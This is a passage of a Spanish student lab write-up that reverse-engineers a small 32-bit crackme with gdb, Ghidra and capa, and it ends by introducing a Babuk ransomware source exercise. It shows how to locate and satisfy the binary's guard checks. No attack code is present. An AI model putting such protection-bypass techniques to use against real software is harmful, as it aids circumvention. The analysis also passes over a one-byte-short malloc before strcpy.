# Entrada en la función rot13
break rot13
```

Luego:
```
# Vamos moviendonos entre los breakpoints
continue

# Ver registros (EAX, EBX, ESI, EBP, ESP...)
info registers

# Ver la instrucción actual
x/i $eip

# Ver unas pocas instrucciones alrededor
x/5i $eip-5
```



**En la Primera Protección: `argc==3`**  
  
donde:
- `argc == 3` - Breakpoint (*main+0x20).
- `p *(int *)$esi` devuelve `argc` en decimal.
- `p/x $esi` devuelve la dirección donde está `argc`.
- `x/wx $esi` devuelve el valor crudo en hexadecimal.


**En la Segunda Protección: `(atoi(argv[1]) == 1729`**  
  
donde:
- Breakpoint *main+0x48.
- El retorno de `atoi` está en `EAX`.
- `EAX` = 1729.


**En la Tercera Protección: `getenv("KEY") != NULL`**  
  
donde:
- Breakpoint *main+0x6b.
- `p/x $eax` resuelve el puntero devuelto por `getenv`.
- `x/s $eax` devuelve la cadena a la que apunta, es decir, el valor de "KEY".


**En la Cuarta Protección: `strcmp("HOLAKASE", env) == 0`**  
  
donde:
- Breakpoint *main+0x90.
- `strcmp("HOLAKASE", env)` ya se ha ejecutado.
- El resultado está en EAX:
  - 0 → las cadenas son iguales.
  - ≠0 → las cadenas son distintas → el programa hará exit(-1).
- `p $eax` devuelve 0 ya que pasa la protección.


**En rot13**  
  
donde:
- Breakpoint rot13
- `x/s (char *)$esp+4` devuelve la cadena de entrada a `rot13`.
- El puntero al texto `ROT13` está en `EAX`.
- `x/s $eax` devuelve la cadena ya transformada.

**En la función puts**  
  
- Breakpoint puts.
- `x/s $eax` devuelve lo que la función `puts` va a imprimir.

**Llega al final del programa**  
  


## **Tarea 2**
El programa, además de “main”, solo tiene una única función. Encontradla y explicad que hace y como lo hace esta función mostrando el código ensamblador correspondiente.


### **Identificar las "Funciones de Usuario"**

Para identificar las funciones de usuario sin incurrir en falsos positivos, como las funciones de gestión de clones del compilador (register_tm_clones), aplicamos un doble filtrado:
- Filtrado por Sección: Verificamos que la dirección de la función se encuentre dentro del rango de la sección `.text`, que es donde se encuentra el código ejecutable principal. Esto descarta inmediatamente funciones de infraestructura situadas en .plt (como FUN_00011020).
- Filtrado por Convención de Nombres: Dentro de `.text`, descartamos aquellas funciones que, aunque marcadas como 'Global', comienzan con guiones bajos o contienen términos técnicos del compilador, como `_start`, `deregister_tm_clones` o `__x86.get_pc_thunk`).


Mostramos el mapa de memoria en ghidra → → → Window → → → Memory Map:

donde:
- Las funciones de usuario siempre residen en la sección .text, mientras que las funciones de enlace dinámico (como la FUN_00011020) residen en la sección .plt.
- La sección `.text` va desde: `000110d0`, hasta:	`00011434`.
- rot13 está en 0001120d, dentro de `.text`.
- writeofile está en 00112ed, dentro de `.text`.
- main está en 000112fd, obviamente dentro de `.text`.
- FUN_00011020 que está en 00011020, esta situado fuera de `.text`. Está donde empieza `.plt`.
- register_tm_clones está dentro de `.text`, pero se descarta por contener guiones en su nombre.


<mark>Bajo estos criterios, **vemos que no sólo hay una función de usuario, hay dos**. Además de `main`, identificamos claramente las funciones `rot13` y `writetofile` como las funciones de usuario. Se descartan FUN_00011020, register_tm_clones, deregister_tm_clones</mark> como posibles funciones de usuario.


### **Las 2 Funciones de usuario**
#### **1. writetofile**
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined writetofile()
             undefined         <UNASSIGNED>   <RETURN>
                             writetofile                                     XREF[3]:     Entry Point(*), 0001205c, 
                                                                                          00012134(*)  
        000112ed 55              PUSH       EBP
        000112ee 89 e5           MOV        EBP,ESP
        000112f0 e8 d6 00        CALL       __x86.get_pc_thunk.ax                            undefined __x86.get_pc_thunk.ax()
                 00 00
        000112f5 05 0b 2d        ADD        EAX=>_GLOBAL_OFFSET_TABLE_,0x2d0b                = 00013efc
                 00 00
        000112fa 90              NOP
        000112fb 5d              POP        EBP
        000112fc c3              RET
```
donde:
- `PUSH EBP / MOV EBP, ESP`: Es el prólogo de la función. Prepara el marco de la pila para esta función.
- `CALL __x86.get_pc_thunk.ax`: Esta es una técnica común en binarios Linux (ELF) de 32 bits para obtener la dirección actual del código. Se usa para lograr PIC (Position Independent Code). Básicamente, carga la dirección de memoria actual en el registro `EAX`.
- `ADD EAX, 0x2d0b`: Ajusta el valor de `EAX` para apuntar a la `_GLOBAL_OFFSET_TABLE_` (`GOT`). Esto permite que la función sepa dónde están los datos globales o las bibliotecas externas en memoria.
- `NOP`: Una instrucción que no hace nada, `No Operation`.
- `POP EBP / RET`: Es el epílogo de la función. Limpia la pila y regresa el control al programa que llamó a la función.

Aunque tiene el nombre `writetofile`, es inusual porque no contiene ninguna lógica para escribir en un archivo. En realidad, parece ser una función que fue vaciada por algún motivo. A pesar de su nombre, esta función es prácticamente nula:
- No abre archivos: No hay llamadas a fopen, open o similares.
- No escribe datos: No hay llamadas a fwrite, write o fprintf.
- No tiene argumentos: Aunque se llama writetofile, no parece recibir parámetros en este bloque de código.
- Solo configura el entorno: Lo único que hace es inicializar el acceso a la tabla global de desplazamientos (GOT) y terminar inmediatamente.
- Aunque aparezca en XREFs (Entry Point, tablas internas), su cuerpo no afecta al flujo ni a las condiciones que debe satisfacer el programa para que termine la ejecución.

**<mark>El nombre de la función parece un señuelo para despistar.</mark>**


#### **2. rot13**
**¿Qué hace rot13 y cómo lo hace?**
- Recibe un `char *`.
- Si el puntero es NULL, devuelve NULL.
- Calcula la longitud de la cadena con `strlen`.
- Reserva memoria dinámica con `malloc(strlen(s))` y copia ahí la cadena con `strcpy`.
- Recorre la copia carácter a carácter:
  - Si es letra minúscula a..z o mayúscula A..Z, aplica `ROT13`:
    - a..m / A..M → suma 13.
    - n..z / N..Z → resta 13.
  - Si no es letra, lo deja igual.
- Devuelve el puntero a la nueva cadena transformada.

##### **Encabezado de función rot13**
```
                         **************************************************************
                         *                          FUNCTION                          *
                         **************************************************************
                         undefined rot13()
         undefined         <UNASSIGNED>   <RETURN>
         undefined4        Stack[-0x8]:4  local_8                                 XREF[1]:     000112e8(R)  
         undefined4        Stack[-0x10]:4 local_10                                XREF[14]:    0001126a(W), 
                                                                                               0001126f(R), 
                                                                                               00011279(R), 
                                                                                               00011283(R), 
                                                                                               0001128d(R), 
                                                                                               00011297(R), 
                                                                                               000112a1(R), 
                                                                                               000112ab(R), 
                                                                                               000112b5(R), 
                                                                                               000112c0(R), 
                                                                                               000112c7(R), 
                                                                                               000112d2(R), 
                                                                                               000112d7(RW), 
                                                                                               000112db(R)  
         undefined4        Stack[-0x14]:4 local_14                                XREF[5]:     00011249(W), 
                                                                                               0001124c(R), 
                                                                                               0001125c(R), 
                                                                                               00011267(R), 
                                                                                               000112e5(R)  
                         rot13                                           XREF[4]:     Entry Point(*), main:000113a7(c), 
                                                                                      00012054, 00012110(*)  
```
donde:
- Se muestra el resumen de la función que el decompilador ha detectado:
  - Nombre y punto de entrada: `rot13()` aparece como función y además está referenciada desde el Entry Point y desde main: El programa llama a rot13 en algún momento del flujo principal.
  - Tipo undefined `rot13()`: el analizador no está seguro del tipo de retorno. Es por ello que no lo ha tipado.
- Variables locales (stack) que se ven:
  - `local_14` en `Stack[-0x14]`. Tiene pocas referencias (5). Suele ser una variable “base”, por ejemplo un puntero o un valor inicial que luego se reutiliza.
  - `local_10` en `Stack[-0x10]`. Tiene muchas referencias (14) repartidas por toda la función, incluyendo lecturas y escrituras. Esto normalmente indica que es la variable “de trabajo” principal: por ejemplo un contador de bucle o un puntero que se va incrementando mientras recorre una cadena/buffer.
  - `local_8` en `Stack[-0x8`. Solo aparece una vez (lectura al final). Suele ser un temporal usado en una comprobación final o para preparar algo justo antes de retornar.


##### **Prólogo de la funcion rot13**
```
    0001120d 55              PUSH       EBP
    0001120e 89 e5           MOV        EBP,ESP
    00011210 53              PUSH       EBX
    00011211 83 ec 14        SUB        ESP,0x14
```
donde:
- `PUSH EBP`: Guarda el valor anterior del registro EBP en la pila.
- `MOV EBP, ESP`: Establece el marco de pila de la función: a partir de aquí, EBP se usa como referencia estable para acceder a variables locales y parámetros.
- `PUSH EBX`: Guarda EBX porque la función lo va a usar y, por convención, debe restaurarlo antes de volver (registro “callee-saved”).
- `SUB ESP, 0x14`: Reserva 0x14 bytes (20 bytes) en la pila para variables locales/temporales.


##### **Cómo accede el programa a sus datos globales**
```
00011214 e8 f7 fe        CALL       __x86.get_pc_thunk.bx                            undefined __x86.get_pc_thunk.bx()
         ff ff
00011219 81 c3 e7        ADD        EBX,0x2de7
```
donde:
- `CALL __x86.get_pc_thunk.bx` ➡ Se inicializa EBX para código posición-independiente (PIC). Lo que hace es copiar la dirección de retorno en EBX. Es decir: al volver de la llamada, EBX contiene la dirección de la siguiente instrucción. Llama a una rutina auxiliar que normalmente carga en EBX un valor relacionado con la dirección actual del código (PC). Esto es muy común en binarios compilados como PIC/PIE (código independiente de posición), para poder calcular direcciones de datos o constantes usando EBX como base.
- `ADD EBX,0x2de7` ➡ Suma un desplazamiento constante a ese valor:
  - EBX = (dirección actual de código) + 0x2de7.


Como el ejecutable está compilado como código posición-independiente (PIC), significa que:
- No puede usar direcciones absolutas “hardcodeadas” a datos globales.
- En su lugar, obtiene la dirección actual de código (con get_pc_thunk) y le suma un offset fijo para llegar a la base de su tabla de datos.
- A partir de ahí, accede a cadenas y variables globales como DAT_0001202b ("KEY") o envkey ("HOLAKASE") usando desplazamientos respecto a EBX.


##### **Comprobación inicial y una salida temprana de la función**
```
0001121f 83 7d 08 00     CMP        dword ptr [EBP + Stack[0x4]],0x0
00011223 75 0a           JNZ        LAB_0001122f
00011225 b8 00 00        MOV        EAX,0x0
         00 00
0001122a e9 b9 00        JMP        LAB_000112e8
         00 00
```
donde:
- `CMP dword ptr [EBP + 0x8], 0x0`: Compara el valor del primer argumento de la función que está en `[EBP+8]` con `NULL / 0`. Aquí está comprobando si el puntero/parámetro que le han pasado es cero.
- `JNZ LAB_0001122f`: Si no es cero (es decir, el parámetro es válido), salta a LAB_0001122f para continuar con la lógica principal.
- `MOV EAX, 0x0`: En caso de que sea cero, pone `EAX = 0`. Esto suele ser el valor de retorno, o un código de estado.
- `JMP LAB_000112e8`: Salta al final de la función (epílogo/return). Es la ruta de salida temprana.


##### **Preparación de llamada a strlen e invocación para obtener la longitud del texto de entrada**
```
                         LAB_0001122f                                    XREF[1]:     00011223(j)  
    0001122f 83 ec 0c        SUB        ESP,0xc
    00011232 ff 75 08        PUSH       dword ptr [EBP + Stack[0x4]]
    00011235 e8 56 fe        CALL       <EXTERNAL>::strlen                               size_t strlen(char * __s)
             ff ff
```
donde:
- `LAB_0001122f`: Etiqueta a la que se salta cuando el parámetro no era NULL.
- `SUB ESP, 0x0c`: Reserva 12 bytes en la pila antes de la llamada.
- `PUSH dword ptr [EBP + 0x8]`: Empuja el primer argumento de la función, probablemente un char *, o el puntero a la cadena, como parámetro para strlen.
- `CALL strlen`: Llama a la función externa `strlen(char *s)`, que devuelve en `EAX` la longitud de la cadena (hasta el byte `\0`).


##### **Gestión de la pila tras `strlen` y luego reserva memoria dinámica con `malloc` usando esa longitud**
```
    0001123a 83 c4 10        ADD        ESP,0x10
    0001123d 83 ec 0c        SUB        ESP,0xc
    00011240 50              PUSH       EAX
    00011241 e8 1a fe        CALL       <EXTERNAL>::malloc                               void * malloc(size_t __size)
             ff ff
```
donde:
- `ADD ESP, 0x10`: Limpia/recupera espacio de la pila tras la llamada anterior.
- `SUB ESP, 0x0c`: Vuelve a reservar 12 bytes en la pila. Otra vez para alineación/preparación de la siguiente llamada.
- `PUSH EAX`: Empuja como argumento el valor que está en `EAX`. Dado que `EAX` viene de `strlen`, aquí está pasando a malloc el tamaño a reservar, la longitud de la cadena.
- `CALL malloc`: Llama a `malloc(size)`. El puntero devuelto queda en `EAX`.


##### **Gestión del resultado de malloc. Comprobación de errores y, si todo va bien, copia la cadena original al nuevo buffer**
```
    00011246 83 c4 10        ADD        ESP,0x10
    00011249 89 45 f0        MOV        dword ptr [EBP + local_14],EAX
    0001124c 83 7d f0 00     CMP        dword ptr [EBP + local_14],0x0
    00011250 0f 84 8f        JZ         LAB_000112e5
             00 00 00
    00011256 83 ec 08        SUB        ESP,0x8
    00011259 ff 75 08        PUSH       dword ptr [EBP + Stack[0x4]]
    0001125c ff 75 f0        PUSH       dword ptr [EBP + local_14]
    0001125f e8 dc fd        CALL       <EXTERNAL>::strcpy                               char * strcpy(char * __dest, cha
             ff ff
```
donde:
- `ADD ESP, 0x10`: Limpia la pila tras la llamada a malloc.
- `MOV [EBP + local_14], EAX`: Guarda en `local_14` el puntero devuelto por malloc (`EAX`). Es decir, `local_14` pasa a ser el buffer recién reservado.
- `CMP [EBP + local_14], 0x0 / JZ LAB_000112e5`: Comprueba si malloc devolvió NULL. Si es NULL, salta a una ruta de salida/gestión de error (LAB_000112e5).
- `SUB ESP, 0x8`: Reserva 8 bytes para preparar la siguiente llamada.
- `PUSH [EBP + 0x8]`: Empuja el primer argumento original: puntero a la cadena fuente.
- `PUSH [EBP + local_14]`: Empuja el puntero destino: el buffer reservado.
- `CALL strcpy`: Copia la cadena fuente en el destino: `strcpy(dest, src)`.


##### **Preparación simple de variables y salto al inicio de un bucle**
```
    00011264 83 c4 10        ADD        ESP,0x10
    00011267 8b 45 f0        MOV        EAX,dword ptr [EBP + local_14]
    0001126a 89 45 f4        MOV        dword ptr [EBP + local_10],EAX
    0001126d eb 6c           JMP        LAB_000112db
```
donde:
- `ADD ESP, 0x10`: Limpia la pila tras la llamada a `strcpy`, ya se habían empujado argumentos y reservado espacio antes de llamar.
- `MOV EAX, [EBP + local_14]`: Carga en `EAX` el valor de `local_14`, que por el contexto anterior es el puntero al buffer recién reservado y ya copiado, la cadena que se va a transformar.
- `MOV [EBP + local_10], EAX`: Guarda ese puntero en `local_10`. 
- `JMP LAB_000112db`: Salta a una etiqueta más adelante. Esto es típico de la estructura de un while/for, donde se salta primero a la comprobación de condición del bucle y luego se entra al cuerpo si procede.


##### **Bucle sobre la cadena**  
```
LAB_000112db:
000112db 8b 45 f4           MOV  EAX,[EBP + local_10] ; p
000112de 0f b6 00           MOVZX EAX,byte ptr [EAX]  ; *p
000112e1 84 c0              TEST AL,AL
000112e3 75 8a              JNZ  LAB_0001126f         ; mientras *p != 0
```
donde:
- Se recorre una cadena de texto.
- Representan la condición de control de un bucle `while` o `for`.
- La función está comprobando si ha llegado al final de la cadena. Si hay una letra, vuelve al cuerpo del bucle para transformarla; si encuentra el cero final, el bucle termina y la función continúa con las siguientes instrucciones.


##### **La lógica del Algoritmo ROT13**  
```
                         LAB_0001126f                                    XREF[1]:     000112e3(j)  
    0001126f 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    00011272 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    00011275 3c 60           CMP        AL,0x60
    00011277 7e 0a           JLE        LAB_00011283
    00011279 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    0001127c 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    0001127f 3c 7a           CMP        AL,0x7a
    00011281 7e 14           JLE        LAB_00011297
                         LAB_00011283                                    XREF[1]:     00011277(j)  
    00011283 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    00011286 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    00011289 3c 40           CMP        AL,0x40
    0001128b 7e 4a           JLE        LAB_000112d7
    0001128d 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    00011290 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    00011293 3c 5a           CMP        AL,0x5a
    00011295 7f 40           JG         LAB_000112d7
                         LAB_00011297                                    XREF[1]:     00011281(j)  
    00011297 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    0001129a 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    0001129d 3c 6d           CMP        AL,0x6d
    0001129f 7f 14           JG         LAB_000112b5
    000112a1 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    000112a4 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    000112a7 3c 4d           CMP        AL,0x4d
    000112a9 7e 1c           JLE        LAB_000112c7
    000112ab 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    000112ae 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    000112b1 3c 5a           CMP        AL,0x5a
    000112b3 7f 12           JG         LAB_000112c7
```
donde:
- El filtro de minúsculas (LAB_0001126f): Aquí el programa intenta determinar si el carácter está entre la 'a' (0x61) y la 'z' (0x7a).
  - CMP AL, 0x60: Compara con el carácter previo a la 'a'. Si es menor o igual (JLE), salta a LAB_00011283 para ver si es mayúscula.
  - CMP AL, 0x7a: Si sobrevivió al primer filtro, comprueba si es menor o igual a 'z'. Si lo es (JLE), salta a LAB_00011297 para rotarlo.
- El filtro de mayúsculas (LAB_00011283): Si no fue minúscula, entra aquí para buscar el rango 'A' (0x41) a 'Z' (0x5a).
  - CMP AL, 0x40: Si es menor o igual a @, salta a LAB_000112d7 (no es una letra, se ignora).
  - CMP AL, 0x5a: Si es mayor a 'Z' (JG), también salta a LAB_000112d7.
- La decisión de rotación (LAB_00011297): Esta es la parte más interesante. Para que el ROT13 funcione, las letras de la primera mitad del alfabeto se "adelantan" 13 puestos y las de la segunda mitad se "atrasan" 13.
  - Caso Minúsculas Altas: Compara con 0x6d ('m'). Si el carácter es mayor (JG), salta a LAB_000112b5 (donde seguramente se ejecuta un SUB AL, 0x0d).
  - Caso Mayúsculas Bajas: Compara con 0x4d ('M'). Si es menor o igual (JLE), salta a LAB_000112c7 (don de se ejecutará un ADD AL, 0x0d).
  - Última validación: La instrucción en 000112b3 (JG LAB_000112c7) es un seguro adicional para enviar las mayúsculas restantes a la zona de suma.


##### **Operación de la resta necesaria para el cifrado / descifrado**  
```
                         LAB_000112b5                                    XREF[1]:     0001129f(j)  
    000112b5 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    000112b8 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    000112bb 83 e8 0d        SUB        EAX,0xd
    000112be 89 c2           MOV        EDX,EAX
    000112c0 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    000112c3 88 10           MOV        byte ptr [EAX],DL
    000112c5 eb 10           JMP        LAB_000112d7
```
donde:
- Este bloque de código realiza la operación de resta necesaria para el cifrado/descifrado ROT13. Se ejecuta específicamente cuando el programa determina que el carácter es una letra que se encuentra en la "segunda mitad" del alfabeto (por ejemplo, de la 'n' a la 'z' o de la 'N' a la 'Z').


##### **Ya no puedo más**
```
                         LAB_000112c7                                    XREF[2]:     000112a9(j), 000112b3(j)  
    000112c7 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    000112ca 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    000112cd 83 c0 0d        ADD        EAX,0xd
    000112d0 89 c2           MOV        EDX,EAX
    000112d2 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    000112d5 88 10           MOV        byte ptr [EAX],DL
                         LAB_000112d7                                    XREF[3]:     0001128b(j), 00011295(j), 
                                                                                      000112c5(j)  
    000112d7 83 45 f4 01     ADD        dword ptr [EBP + local_10],0x1
                         LAB_000112db                                    XREF[1]:     0001126d(j)  
    000112db 8b 45 f4        MOV        EAX,dword ptr [EBP + local_10]
    000112de 0f b6 00        MOVZX      EAX,byte ptr [EAX]
    000112e1 84 c0           TEST       AL,AL
    000112e3 75 8a           JNZ        LAB_0001126f
```


##### **Epílogo de la función rot13**
Este bloque final representa el epílogo de la función rot13. Su objetivo es limpiar el entorno de trabajo (la pila o stack), restaurar los registros que el programa estaba usando y devolver el control a la función que la llamó, main.
```
                         LAB_000112e5                                    XREF[1]:     00011250(j)  
    000112e5 8b 45 f0        MOV        EAX,dword ptr [EBP + local_14]
                         LAB_000112e8                                    XREF[1]:     0001122a(j)  
    000112e8 8b 5d fc        MOV        EBX,dword ptr [EBP + local_8]
    000112eb c9              LEAVE
    000112ec c3              RET
```
donde:
- Preparación del Valor de Retorno (LAB_000112e5 ): `MOV EAX, dword ptr [EBP + local_14]`: El registro EAX se utiliza por convención en x86 para almacenar el valor que una función devuelve. Aquí, el programa carga una variable local en EAX. En el contexto de rot13, esto suele ser el puntero a la cadena ya procesada.
- Restauración de Registros y Limpieza (LAB_000112e8)
  - `MOV EBX, dword ptr [EBP + local_8]`: Antes de terminar, la función restaura el valor original del registro EBX que guardó al principio. Esto es una "norma de cortesía" en programación: si una función usa ciertos registros, debe devolverlos como los encontró para no romper la lógica de la función principal.
  - `LEAVE`: Es una instrucción de alto nivel que simplifica dos pasos: deshace el marco de la pila (MOV ESP, EBP) y restaura el puntero base anterior (POP EBP). Básicamente, "recoge" todo lo que la función usó en la memoria temporal.
- El Retorno Final: `RET`: Finaliza la ejecución de la función y salta de vuelta a la siguiente instrucción en main.


## **Nota curiosa: Aplicamos Reglas Capa al ejercicio**

donde:
- La dirección 0x1120D es el inicio de rot13. En rot13 hay claramente un bucle que recorre la cadena carácter a carácter.
  - Las reglas de capa tienen una regla muy genérica “contain loop” que se dispara cuando detecta características de bucle (saltos condicionales hacia atrás, etc.).
- Capa detecta que el binario consulta variables de entorno: `getenv("KEY")`.
- Capa detecta `terminate process`. Capa ha encontrado varias llamadas a exit.
- Consultar variable de entorno → típico en malware para leer configuración / entorno.
- Terminar proceso con exit en varios puntos → coincide con reglas genéricas de “terminate process”.
- Bucle sobre datos → característica típica de transformaciones, cifrados, etc. (ROT13 en tu caso).
- Por eso capa saca etiquetas como:
  - host-interaction/environment-variable
  - host-interaction/process/terminate
  - Discovery::System Information Discovery [T1082]
  - Process::Terminate Process [C0018]


-----------------------------------------
# **Ejercicio 2**
Para este ejercicio emplearemos el código fuente del ransomware Babuk, el cual NO DEBEIS COMPILAR NI MUCHO MENOS EJECUTAR.

